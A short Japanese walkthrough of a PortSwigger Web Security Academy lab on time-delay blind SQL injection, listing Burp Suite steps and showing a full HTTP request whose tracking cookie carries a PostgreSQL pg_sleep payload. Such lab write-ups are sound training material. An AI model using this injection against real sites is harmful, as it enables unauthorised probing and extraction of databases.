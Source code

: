 # 時間遅延を伴うブラインド SQL インジェクション

次のハッキングラボを実施します  
https://portswigger.net/web-security/sql-injection/blind/lab-time-delays  
このラボにはブラインド SQL インジェクションの脆弱性が含まれています。アプリケーションは分析に追跡 Cookie を使用し、送信された Cookie の値を含む SQL クエリを実行します。

- 1. BurpSuite を起動して、proxy タブからブラウザを立ち上げます
- 2. ハッキングラボにアクセスします
- 3. GET / HTTP/2 リクエストを send to repeater します
- 4. リクエストのクッキーに postgres の sleep 関数を埋め込みます。送信して 10 秒後にレスポンスがあります。

```
GET / HTTP/2
Host: 0a6200a8030e11c681e434aa003400db.web-security-academy.net
Cookie: TrackingId=QwwIjlsFXyK1YIxd'||pg_sleep(10)--; session=6Yg1gqDGB5E6AlHDC3OcMid1AiomCWQ4
```
